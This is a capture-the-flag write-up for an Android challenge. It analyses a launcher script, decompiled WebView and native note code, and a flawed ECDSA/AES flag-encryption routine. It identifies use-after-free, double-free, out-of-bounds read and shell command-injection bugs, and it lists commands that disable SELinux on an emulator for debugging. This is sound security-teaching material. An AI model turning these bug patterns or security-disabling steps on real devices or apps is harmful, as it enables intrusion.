




# cratecrack

## Description

I'm on the next level, yeah I'm on the next level

Author: k0m1, tourpran, apn

## TL;DR

In this task, I encountered an Android application with a vulnerable native library. The application exposes a JavaScript interface to interact with the library and executes JavaScript code from a user-provided URL.

First, I reverse engineered the [APK file](./task/Handout/app.apk) and its native libraries to understand the functionality, identify the vulnerability, and find a way to retrieve the flag.

After that, I prepared an environment for working with the application inside a Docker container, including running emulator, debugging native code and interacting with it through JavaScript.

Next, I exploited a use-after-free vulnerability in the native library to leak data from the allocator's heap using an [exploit](./task/exploit.html) written in JavaScript.

The leaked data contained results of a cryptographic operation, which I cracked using secret zoomer's technique to create Python [script](./task/solve.py) and recover the flag.

## First Look



This task was my first experience working with Android, so besides explaining the solution, I want this writeup to serve as a guide for PWNers who, like me, are not yet familiar with Android and its hidden pitfalls. The writeup became quite long, so you can check the TL;DR if you want to read only specific parts.

### Background


According to the task description, this is the next level. But the next level of what? After googling around a bit, I found the task [Tallocator](https://blog.bi0s.in/2024/02/26/Pwn/Tallocator-bi0sctf2024/) from last year’s bi0s CTF 2024. This task introduces a memory allocator with a native Android library that allows freeing arbitrary pointers. As we’ll see later, almost the same allocator is used in this task, and we will refer to its source code instead of reverse engineering the code of the current task.

### The Script Where It All Began

Well, we need to PWN an Android application without any prior experience. Where should we start? Fortunately, the task authors provided everything needed to reproduce the remote environment within the [handout](./task/handout.zip). One of the files is a script called [script.py](./task/Handout/script.py). Let's take a look at some parts of it.
```python
def set_EMULATOR():
    subprocess.call(
        "avdmanager" +
        " create avd" +
        " --name 'Pixel_4_XL'" +
        " --abi 'default/x86_64'" +
        " --package 'system-images;android-30;default;x86_64'" +
        " --device pixel_4_xl" +
        " --force"+
        " > /dev/null 2> /dev/null",
        env=ENV,close_fds=True,shell=True)

    return subprocess.Popen(
        "emulator" +
        " -avd Pixel_4_XL" +
        " -no-cache" +
        " -no-snapstorage" +
        " -no-snapshot-save" +
        " -no-snapshot-load" +
        " -no-audio" +
        " -no-window" +
        " -no-snapshot" +
        " -no-boot-anim" +
        " -wipe-data" +
        " -accel on" +
        " -netdelay none" +
        " -netspeed full" +
        " -delay-adb" +
        " -port {}".format(emu_port)+
        " > /dev/null 2> /dev/null ",
        env=ENV,close_fds=True,shell=True)
```
As we can see, this function creates an AVD (Android Virtual Device) and starts the emulator. So, we can simply grab these shell commands to run Android on our own. But what environment (`ENV`) is passed to the subprocesses?

```python
def set_ENV(env):
    env.update(os.environ)
    env.update({
        "ANDROID_ADB_SERVER_PORT" : f"{adb_port}",
        "ANDROID_SERIAL": f"emulator-{emu_port}",
        "ANDROID_SDK_ROOT": "/opt/android/sdk",
        "ANDROID_SDK_HOME": home,
        "ANDROID_PREFS_ROOT": home,
        "ANDROID_EMULATOR_HOME": f"{home}/.android",
        "ANDROID_AVD_HOME": f"{home}/.android/avd",
        "JAVA_HOME": "/usr/lib/jvm/java-17-openjdk-amd64",
        "PATH": "/opt/android/sdk/cmdline-tools/latest/bin:/opt/android/sdk/emulator:/opt/android/sdk/platform-tools:/bin:/usr/bin:" + os.environ.get("PATH", "")
    })
```
Okay, it looks like some required “magic” for the setup. We won’t focus on this for now but will simply save it along with the startup shell commands. Let's move to the next code:
```python
def ADB_Helper(args,var1=True):
    return subprocess.run("adb {}".format(" ".join(args)),env=ENV,shell=True,close_fds=True,capture_output=var1).stdout

def install_apk():
    ADB_Helper(["install","-r",apk_path])

def start_activity():
    ADB_Helper(["shell","am","start","-n","bi0sctf.challenge/.MainActivity"])

# def start_broadcast(action,extras=None):
#     ADB_Helper(["shell", "am", "broadcast", "-a", action, '--es', 'url',extras['url']])

def send_url(extras=None):
    ADB_Helper(["shell","am","start","-n","bi0sctf.challenge/.MainActivity","--es","url",extras['url']])

def print_adb_logs():
     logs = ADB_Helper(["logcat", "-d"])
     for log in logs.decode("utf-8").strip().split("\n"):
         print(log)

def push_file():
    ADB_Helper(["root"])
    ADB_Helper(["push", "/chall/flag", "/data/data/bi0sctf.challenge/"])
    ADB_Helper(["unroot"])
```
Here we can see a bunch of helper functions that internally call `adb`. After a quick web search, we learn that it is the Android Debug Bridge — "a versatile command-line tool that lets you communicate with a device." In our case, with emulated device. Got it, we’ll come back to the exact `adb` commands we need later. Now we can look at main script logic:
```python
try:
    set_ENV(ENV)
    print_prompt("+-------------------=============-------------------+")
    print_prompt("+------------------ Playlist Checker ---------------+")
    print_prompt("+-------------------=============-------------------+")
    print_prompt("[+] Waking up the bot to analyze your secret playlist...")
    emulator = set_EMULATOR()
    #print_adb_logs()
    ADB_Helper(["wait-for-device"])

    print_prompt("[+] Stats: Recommended over 100 playlists today.")
    install_apk()

    print_prompt("[+] Status: Starting the analysing engine.")
    start_activity()
    push_file()

    time.sleep(5)

    print_prompt("[+] Enter your Playlist URL to analyze: ")
    input_url = sys.stdin.readline().strip()
    # start_broadcast("bi0sctf.android.DATA", extras = {"url": input_url})

    send_url(extras={'url':input_url})

    reply = output[randint(0, 2)]
    print_prompt("[+] Opinion: " + reply)

    time.sleep(10)

    os.system("kill -9 `pgrep qemu`")
    emulator.kill()
except:
    print("nice try kid")
    os.system("kill -9 `pgrep qemu`")
    os.system("kill -9 `pgrep adb`")
    emulator.kill()
```
As we can see, it starts the emulator, installs the APK file on the device, and then runs the application, passing the `url` parameter obtained from user input.

If we put all this together, here’s what we get:  

1. We have a running emulated Android device.  
2. The APK file of the application is installed in the device.  
3. We can pass a URL to the application and have it somehow process it (probably visit it to "Check Playlist").  

The next step is to understand exactly what the application does with this URL. But before we start, I’d like to point out one interesting thing…

###  Weak Pentester's Way



After the CTF was over, while writing this writeup, I noticed a funny detail in the [script.py](./task/Handout/script.py):
```python
...
def ADB_Helper(args,var1=True):
    return subprocess.run("adb {}".format(" ".join(args)),env=ENV,shell=True,close_fds=True,capture_output=var1).stdout
...
def send_url(extras=None):
    ADB_Helper(["shell","am","start","-n","bi0sctf.challenge/.MainActivity","--es","url",extras['url']])
...
try:
    ...
    input_url = sys.stdin.readline().strip()
    # start_broadcast("bi0sctf.android.DATA", extras = {"url": input_url})

    send_url(extras={'url':input_url})
    ...
```
This looks like a pretty obvious OS command injection vulnerability via the user-controlled `url` parameter. Of course, having RCE inside the task container would easily give us the flag, but since I already solved this task the intended way and this vulnerability is clearly not the one the authors meant to be exploited, we'll move on pretending we didn’t notice this vulnerability (which is exactly what happened to me during the CTF).

## APK Analysis

We'll start analyzing given APK file by decompiling it, for example, with [JADX](https://github.com/skylot/jadx). 

### MainActivity

Let’s especially take a look at the decompiled class `bi0sctf.challenge.MainActivity`, as it appears to be the entry point of our application according to the `adb` command used to start it.

```java
package bi0sctf.challenge;

import android.os.Bundle;
import android.webkit.JavascriptInterface;
import androidx.appcompat.app.AppCompatActivity;

/* loaded from: classes.dex */
public class MainActivity extends AppCompatActivity {
    public native long addNote(byte[] bArr);

    public native void deleteNote(long j);

    public native void edit(byte[] bArr, long j);

    public native void encryption();

    public native String getContent(long j);

    public native String getId(long j);

    public native void whiplash(MainActivity mainActivity);

    static {
        System.loadLibrary("supernova");
        System.loadLibrary("bob");
    }

    @JavascriptInterface
    public long secure_addNote(byte[] bArr) {
        return addNote(bArr);
    }

    @JavascriptInterface
    public void secure_deleteNote(long j) {
        deleteNote(j);
    }

    @JavascriptInterface
    public void secure_edit(byte[] bArr, long j) {
        edit(bArr, j);
    }

    @JavascriptInterface
    public String secure_getContent(long j) {
        return getContent(j);
    }

    @JavascriptInterface
    public String secure_getId(long j) {
        return getId(j);
    }

    @JavascriptInterface
    public void secure_encryption() {
        encryption();
    }

    @Override // androidx.fragment.app.FragmentActivity, androidx.activity.ComponentActivity, androidx.core.app.ComponentActivity, android.app.Activity
    protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        whiplash(this);
    }
}
```

We can notice a few interesting things:

1. Some methods are marked as `native`, meaning they are implemented in native (x86_64) code via shared libraries.  
2. There are two native libraries loaded: `bob` and `supernova`.  
3. Some wrapper methods are annotated with `@JavascriptInterface`, allowing them to be invoked from JavaScript running in a [WebView](https://stackoverflow.com/questions/10389572/call-java-function-from-javascript-over-android-webview).  
4. The native method `whiplash` appears to handle the application’s startup logic immediately after the app is created.

What do we do with this? Combined with the fact that the application processes URLs, we can reasonably assume that the methods marked with `@JavascriptInterface` can be triggered by a script on a web page loaded from our URL. Most likely, this is how we can reach the vulnerable native code and exploit it. Now, let's extract the native libraries from the APK and take a look at them in the IDA Pro decompiler.

### supernova



After opening [libsupernova.so](./task/libsupernova.so) in the decompiler, my first wish was to close it immediately... There are about 300 kilobytes of stripped code. Moreover, according to its strings, it seems to be compiled from Rust, which is not the best option for reverse engineering (forgive me, Rust fanboys). Anyway, we need to understand which part of the native methods’ logic this library implements.

So, let's look for functions implementing native Java methods. Luckily, their names were not stripped. Actually, not “their,” but “his.” His name is `Java_bi0sctf_challenge_MainActivity_whiplash`, which corresponds to the `whiplash` method of `MainActivity`. It’s the only native method in this library and, as we find out, it responsible for the application startup.


Honestly, the decompiled code of this function is too messy for this beautiful writeup, so I decided not to even bother looking at it. I think this is the moment when human resources are exhausted and it's time to call in the computers. Actually, I have one in mind. Let's call him Gopatych (GoPaTych). Gopatych is a clever guy, so let's just send all the decompiled code of `Java_bi0sctf_challenge_MainActivity_whiplash` to him with instructions to explain it:
```
Hi, bro!
I am trying to reverse engineer one native Java method implemented in a Rust-written native library.  
Unfortunately, there are no function names.  
I know that the target method is responsible for the Android application startup.  
Also, I know that the application accepts a URL as its parameter and processes it by executing JavaScript code.  
The JavaScript code itself can call Java methods marked with @JavascriptInterface.  
Here is the decompiled code:
...
```

Gopatych seems to have solved this task excellently and suggested the following normal Java pseudocode:
```java
@Keep
public static void whiplash(Activity self, /*JNI*/ Object unused, Intent maybeIntent) {
    Intent intent = self.getIntent();
    String url = intent.getStringExtra("url");

    self.setContentView(R.layout.activity_main);
    WebView wv = self.findViewById(R.id.webview);

    WebSettings st = wv.getSettings();
    st.setJavaScriptEnabled(true);
    st.setCacheMode(WebSettings.LOAD_NO_CACHE);

    wv.addJavascriptInterface(self, "aespa");
    wv.setWebViewClient(new WebViewClient());
    wv.setWebChromeClient(new WebChromeClient());

    wv.loadUrl(url);
}
```
If Gopatych is not hallucinating again (he’s known for having that problem), we got enough information about the `whiplash` method. It simply creates a [WebView](https://stackoverflow.com/questions/10389572/call-java-function-from-javascript-over-android-webview) and adds an interface called `aespa` that can be used to call `@JavascriptInterface` methods from JavaScript code executing on the page loaded from the URL.

Now, we'll move on to the second native library and hope the vulnerable code is there so we don’t have to come back to this one.

### bob


Let’s decompile [libbob.so](./task/libbob.so) and look at the code of the native methods implemented there. Luckily, this library seems to be implemented in C, and its code is easy to read in the IDA Pro decompiler. So, let’s start with the code for the `addNote` method:
```c
__int64 __fastcall Java_bi0sctf_challenge_MainActivity_addNote(__int64 some_java_shit, __int64 a2, __int64 note_obj)
{
  __int64 new_size; // rbx
  const char *note_bytes; // r14
  unsigned int note_len; // eax
  __int64 note; // rax

  new_size = -1LL;
  if ( noteBook_size != 10 )
  {
    note_bytes = (const char *)(*(__int64 (__fastcall **)(__int64, __int64, _QWORD))(*(_QWORD *)some_java_shit + 1472LL))(
                                 some_java_shit,
                                 note_obj,
                                 0LL);
    if ( strlen(note_bytes) <= 0x1F )
    {
      note_len = strlen(note_bytes);
      note = talloc(note_len, note_bytes);
      new_size = noteBook_size;
      noteBook[noteBook_size] = note;
      noteBook_size = new_size + 1;
    }
  }
  return new_size;
}
```
With all variable names modified to be more descriptive, this function looks very straightforward. Key aspects we need to notice:  
1. The buffer for storing the note is allocated with `talloc`.  
2. It copies input bytes up to its `strlen`, but not more than `0x1F` bytes.  
3. It enforces a limit of 10 available notes.

Now, move to the `getContent` method:
```c
__int64 __fastcall Java_bi0sctf_challenge_MainActivity_getContent(__int64 some_java_shit, __int64 a2, __int64 noteId)
{
  const char *result; // rsi

  result = "Only for premium users.";
  if ( noteId >= 10 )
    result = "lol nice try.";
  return (*(__int64 (__fastcall **)(__int64, const char *))(*(_QWORD *)some_java_shit + 1336LL))(some_java_shit, result);
}
```
Well, we can move on without any comments to this very useful method.

Here is `edit` method:
```c
size_t __fastcall Java_bi0sctf_challenge_MainActivity_edit(
        __int64 some_java_shit,
        __int64 a2,
        const char *new_note_obj,
        __int64 note_id)
{
  size_t note_len; // rax
  const char *v7; // r14
  void *v8; // r15
  size_t v9; // rax
  __int64 v10; // rbx

  if ( note_id <= 9 )
  {
    note_len = strlen(new_note_obj);
    if ( note_len <= 0x1F )
    {
      v7 = (const char *)(*(__int64 (__fastcall **)(__int64, const char *, _QWORD))(*(_QWORD *)some_java_shit + 1472LL))(
                           some_java_shit,
                           new_note_obj,
                           0LL);
      v8 = (void *)noteBook[note_id];
      v9 = strlen(v7);
      memcpy(v8, v7, v9);
      note_len = strlen(v7);
      if ( note_len <= 0x1F )
      {
        v10 = noteBook[note_id];
        note_len = strlen(v7);
        *(_BYTE *)(v10 + note_len) = 0;
      }
    }
  }
  return note_len;
```
This method is as simple as it sounds. It copies the new note bytes over the previous one. At least one thing looks like a vulnerability: there is no size check comparing the existing note to the new one. Since the buffer is reused, a buffer overflow could be possible, but it depends on the behavior of `talloc` because, with limited note sizes, it might allocate chunks of the same size.

Keeping this in mind, let's move on to the `getId` method:
```c
const char *__fastcall Java_bi0sctf_challenge_MainActivity_getId(
        __int64 some_java_shit,
        int a2,
        __int64 noteId,
        __int64 a4,
        int a5,
        int a6)
{
  char v7[32]; // [rsp+0h] [rbp-38h] BYREF
  unsigned __int64 v8; // [rsp+20h] [rbp-18h]

  v8 = __readfsqword(0x28u);
  if ( noteId > 9 )
    return "Nice Try";
  num_to_str((unsigned int)v7, a2, noteId, *(_QWORD *)(noteBook[noteId] + 0x20LL), a5, a6, v7[0]);
  return (const char *)(*(__int64 (__fastcall **)(__int64, char *))(*(_QWORD *)some_java_shit + 1336LL))(
                         some_java_shit,
                         v7);
}
unsigned __int64 num_to_str(__int64 a1, __int64 a2, __int64 a3, ...)
{
  gcc_va_list va; // [rsp+B0h] [rbp-28h] BYREF
  unsigned __int64 v5; // [rsp+D0h] [rbp-8h]

  va_start(va, a3);
  v5 = __readfsqword(0x28u);
  __vsprintf_chk(a1, 0LL, 32LL, "%llu", va);
  return __readfsqword(0x28u);
}
```
This method does something really weird. Since the note size is limited to `0x1F` bytes, reading a value (an `0x08`-byte qword) at an offset of `0x20` bytes from the note start is an out-of-bounds read vulnerability. Interestingly, for now, it’s the only way to read something meaningful from memory back into the JavaScript code. 

Finally, move on to the last note-related method `deleteNote`:
```c
__int64 __fastcall Java_bi0sctf_challenge_MainActivity_deleteNote(__int64 some_java_shit, __int64 a2, __int64 note_id)
{
  __int64 result; // rax

  if ( note_id <= 9 )
  {
    result = tree((_QWORD *)noteBook[note_id]);
    --noteBook_size;
  }
  return result;
}
```
Assuming `tree` is the free function of the `talloc` allocator, this method definitely has two very powerful vulnerabilities:  
1. use-after-free: the pointer to the note is not zeroed after being freed.  
2. double-free: we can free the same note twice or more.

Putting it all together, we have a really buggy, classic note-saving functionality. Among all the vulnerabilities we found, the use-after-free is the one we’ll exploit later. But what does “exploit” mean here? We haven’t seen the flag yet. That’s where the last native method comes in.

### Encrypted Flag


Let's look at the code of last `encryption` method. Actually it's a simple wrapper over the `trigger_encryption` function:
```c
unsigned __int64 trigger_encryption()
{
  __int64 ctx; // rbx
  FILE *v1; // r15
  __int64 v2; // r15
  __int64 v3; // rax
  __int64 v5; // [rsp+8h] [rbp-280h] BYREF
  int v6[20]; // [rsp+10h] [rbp-278h] BYREF
  _OWORD v7[4]; // [rsp+60h] [rbp-228h] BYREF
  __int128 v8; // [rsp+A0h] [rbp-1E8h] BYREF
  __int128 v9; // [rsp+B0h] [rbp-1D8h] BYREF
  _BYTE v10[64]; // [rsp+C0h] [rbp-1C8h] BYREF
  _BYTE pubkey[64]; // [rsp+100h] [rbp-188h] BYREF
  _BYTE sig_ser[64]; // [rsp+140h] [rbp-148h] BYREF
  _BYTE msg2[32]; // [rsp+180h] [rbp-108h] BYREF
  _BYTE msg1[32]; // [rsp+1A0h] [rbp-E8h] BYREF
  _OWORD priv[2]; // [rsp+1C0h] [rbp-C8h] BYREF
  _BYTE sig2[64]; // [rsp+1E0h] [rbp-A8h] BYREF
  _BYTE sig1[64]; // [rsp+220h] [rbp-68h] BYREF
  unsigned __int64 v18; // [rsp+260h] [rbp-28h]

  v18 = __readfsqword(0x28u);
  if ( !byte_5678 )
  {
    byte_5678 = 1;
    ctx = secp256k1_context_create(513LL);
    v1 = fopen("/dev/urandom", "rb");
    fread(priv, 1uLL, 0x20uLL, v1);
    fclose(v1);
    SHA256(
      "Lord, grant me the strength to accept the things I cannot change; Courage to change the things I can; And wisdom t"
      "o know the difference.",
      136LL,
      msg1);
    SHA256("Wherever There Is Light, There Are Always Shadows", 49LL, msg2);
    if ( !(unsigned int)secp256k1_ecdsa_sign(ctx, (__int64)sig1, (__int64)msg1, (__int64)priv, (__int64)noncefn, 0LL)
      || !(unsigned int)secp256k1_ecdsa_sign(ctx, (__int64)sig2, (__int64)msg2, (__int64)priv, (__int64)noncefn, 0LL)
      || (secp256k1_ecdsa_signature_serialize_compact(ctx, sig_ser, sig1),
          secp256k1_ecdsa_signature_serialize_compact(ctx, sig_ser, sig2),
          !(unsigned int)secp256k1_ec_pubkey_create(ctx, pubkey, priv))
      || !(unsigned int)secp256k1_ecdsa_verify(ctx, sig1, msg1, pubkey)
      || !(unsigned int)secp256k1_ecdsa_verify(ctx, sig2, msg2, pubkey) )
    {
      exit(1);
    }
    qmemcpy(v10, "CTF{sample_flag_here}", 21);
    memset(&v10[21], 11, 11);
    memset(v7, 0, sizeof(v7));
    v8 = priv[0];
    SHA256(priv, 32LL, v6);
    v9 = *(_OWORD *)v6;
    v2 = EVP_CIPHER_CTX_new();
    v3 = EVP_aes_128_cbc();
    EVP_EncryptInit_ex(v2, v3, 0LL, &v9, &v8);
    EVP_CIPHER_CTX_set_padding(v2, 1LL);
    EVP_EncryptUpdate(v2, v7, v6, v10, 32LL);
    EVP_EncryptFinal_ex(v2, (char *)v7 + v6[0], v6);
    EVP_CIPHER_CTX_free(v2);
    v5 = 65LL;
    secp256k1_ec_pubkey_serialize(ctx, (__int64)v6, (__int64)&v5, (__int64)pubkey, 2LL);
    talloc(64LL, sig1);
    talloc(64LL, sig2);
    talloc(32LL, v7);
    talloc((unsigned int)v5, pubkey);
    secp256k1_context_destroy(ctx);
  }
  return __readfsqword(0x28u);
}
__int64 __fastcall noncefn(_OWORD *nonce, _OWORD *msg, _OWORD *key)
{
  *nonce = *key;
  nonce[1] = *msg;
  return 1LL;
}
```

Unfortunately, this function does exactly what it says — it triggers encryption. Specifically, it encrypts the flag using the following algorithm: 
 
1. It uses `secp256k1_ecdsa` to sign two messages with the same random key and nonces derived from this key and the messages, respectively.  
2. It uses the same random key to derive the key and IV for flag encryption with `aes-128-cbc`.  
3. It copies both signatures, the flag’s ciphertext, and the signing public key into `talloc`-ated chunks without storing pointers to them anywhere.

One important thing to notice is that, despite having code to serialize both signatures and the public key, the function still copies their unserialized versions into the chunks. This seems odd — if not outright a mistake — since the serialized results are generated but never actually used.


To sum it up, we have a vulnerable note-saving functionality that uses the same allocator as the one used to store the results of the flag encryption. For now, it’s not clear how to recover the flag from the two message signatures, the flag’s ciphertext, and the public key. But it’s obvious that we at least need to leak them from the `talloc`  heap by exploiting vulnerabilities.

## Environment Setup


And here we have come to the most difficult part of this task for anyone not familiar with Android. Before we start exploitation, we need to prepare everything required to run the application and work with the native library code in a debugger.

### Docker

Since the task authors provided a Dockerfile within the handout, we can reuse it to run the Android application on our own. Here is the Dockerfile with slight modifications:

```Dockerfile
FROM ubuntu:20.04

RUN /usr/sbin/useradd --no-create-home -u 1000 user

RUN set -e -x; \
  apt update -y; \
  apt upgrade -y; \
  apt install -y software-properties-common; \
  apt install -y openjdk-17-jdk; \
  apt install -y unzip wget socat; \
  apt install -y cpu-checker qemu-kvm libvirt-daemon-system libvirt-clients bridge-utils virtinst virt-manager; \
  apt install -y python3

RUN set -e -x; \
  wget https://dl.google.com/android/repository/commandlinetools-linux-6514223_latest.zip -O commandlinetools.zip; \
  mkdir -p /opt/android/sdk/cmdline-tools; \
  unzip commandlinetools.zip; \
  mv tools /opt/android/sdk/cmdline-tools/latest; \
  rm commandlinetools.zip;

ENV PATH "/opt/android/sdk/cmdline-tools/latest/bin:${PATH}"
ENV ANDROID_SDK_ROOT "/opt/android/sdk"

RUN set -e -x; \
  yes | sdkmanager --install \
    "ndk-bundle"\
    "cmdline-tools;latest" \
    "platform-tools" \
    "build-tools;30.0.0" \
    "platforms;android-30" \
    "system-images;android-30;default;x86_64" \
    "emulator";

RUN sdkmanager --update;

ENV PATH "/opt/android/sdk/emulator:${PATH}"
ENV PATH "/opt/android/sdk/platform-tools:${PATH}"
ENV PATH "/opt/android/sdk/build-tools/30.0.0:${PATH}"

COPY app.apk helper start.sh /chall/

RUN chmod 755 /chall/helper
RUN chmod 755 /chall/start.sh
RUN chmod 644 /chall/app.apk

RUN mkdir     /home/user/
RUN chmod 755 /home/user/

#EXPOSE 1337
#CMD socat TCP-LISTEN:1337,reuseaddr,fork EXEC:"/chall/script.py"
WORKDIR /chall
CMD ./start.sh
```
I added `ndk-bundle` to the list of packages installed with `sdkmanager`. It is required to get the `gdbserver` binary, which we will later use to debug our application inside the emulated device. Also, I changed the container’s `CMD` to run the start script instead of the author’s `socat`. We'll focus on this script later, but for now, we know that it needs to start the emulator—probably using the same shell commands we saw in [script.py](./task/Handout/script.py)—and prepare everything we need, including the application and debugger.

Start container from this image we can with following script ([docker.sh](./task/docker.sh)):
```bash
#!/bin/bash

docker run \
  -d \
  --rm \
  --name cratecrack \
  --net=host \
  --privileged \
  -v /dev/kvm:/dev/kvm \
  -v .:/work \
  cratecrack
```

### Emulator

We won’t try to reinvent the wheel and will simply copy the author’s shell commands required to start the emulator. 

But before that, we need to set up the environment variables from author's script:
```bash
home="/home/user"
adb_port=11000
emu_port=11001
apk_path="/chall/app.apk"
export ANDROID_ADB_SERVER_PORT="${adb_port}"
export ANDROID_SERIAL="emulator-${emu_port}"
export ANDROID_SDK_ROOT="/opt/android/sdk"
export ANDROID_SDK_HOME="${home}"
export ANDROID_PREFS_ROOT="${home}"
export ANDROID_EMULATOR_HOME="${home}/.android"
export ANDROID_AVD_HOME="${home}/.android/avd"
export JAVA_HOME="/usr/lib/jvm/java-17-openjdk-amd64"
export PATH="/opt/android/sdk/cmdline-tools/latest/bin:/opt/android/sdk/emulator:/opt/android/sdk/platform-tools:/bin:/usr/bin:${PATH}"
```
And after that, we’ll end up with the following commands for emulator start:
```bash
avdmanager \
  create avd \
  --name 'Pixel_4_XL' \
  --abi 'default/x86_64' \
  --package 'system-images;android-30;default;x86_64' \
  --device pixel_4_xl \
  --force

emulator \
  -avd Pixel_4_XL \
  -no-cache \
  -no-snapstorage \
  -no-snapshot-save \
  -no-snapshot-load \
  -no-audio \
  -no-window \
  -no-snapshot \
  -no-boot-anim \
  -wipe-data \
  -accel on \
  -netdelay none \
  -netspeed full \
  -delay-adb \
  -writable-system \
  -port ${emu_port}
```

### Application

After emulator is ready, we can start our application. 

Following the author’s starting script, the first step is to install the APK on the device:
```bash
adb install -r "${apk_path}"
```

Next, we can run our application with a URL to process:
```bash
adb shell am start -S -n bi0sctf.challenge/.MainActivity --es url "$URL"
```
The `-S` option here will stop any existing running instance of the application. 

After starting, we can view the application logs with the following command:
```bash
adb logcat --pid $(adb shell pidof -s bi0sctf.challenge)
```
### Debugger


So, let's get to the most interesting part of environment setup. We have native code inside a shared library running somewhere inside Android — how do we see what’s going on in the familiar `gdb`-like way? It took me a few hours during the CTF to figure it out, but my entry point was this [article](https://gist.github.com/sekkr1/6adf2741ed3bc741b53ab276d35fd047).

First of all, we need to copy the `gdbserver` binary from the `ndk-bundle` (which we previously installed to the author’s Docker image) onto the device and make it executable:
```bash
adb push /opt/android/sdk/ndk-bundle/prebuilt/android-x86_64/gdbserver/gdbserver /data/local/tmp/
adb shell chmod +x /data/local/tmp/gdbserver
```

After that, we need to forward the port that `gdbserver` will listen on from the device to the host system:
```bash
adb forward tcp:1338 tcp:1338
```

Originally, I thought that was enough and we could already attach the debugger, but there was a permission issue:
```
Cannot attach to process 2433: Operation not permitted (1)
```

Thanks to my friend Gopatych, the issue was solved by disabling some default security features of Android:
```bash
adb root                                  # get root adbd
adb remount                               # make /system writable
adb shell setenforce 0                    # stop SELinux from blocking
adb shell setprop security.perf_harden 0  # unlock perf counters
```

Now, we can attach `gdbserver` to the process of our application:
```bash
adb shell /data/local/tmp/gdbserver :1338 --attach $(adb shell pidof -s 'bi0sctf.challenge')
```

And we can simply connect to it from our host:
```bash
gdb -ex "target remote :1338"
```

Let's put it all together and end up with the following sequence of commands required to prepare the application and debugger after the emulator starts:
```bash
adb wait-for-device
adb install -r "${apk_path}"

adb root                                  # get root adbd
adb remount                               # make /system writable
adb shell setenforce 0                    # stop SELinux from blocking
adb shell setprop security.perf_harden 0  # unlock perf counters

adb push /opt/android/sdk/ndk-bundle/prebuilt/android-x86_64/gdbserver/gdbserver /data/local/tmp/
adb shell chmod +x /data/local/tmp/gdbserver
adb forward tcp:1338 tcp:1338
```

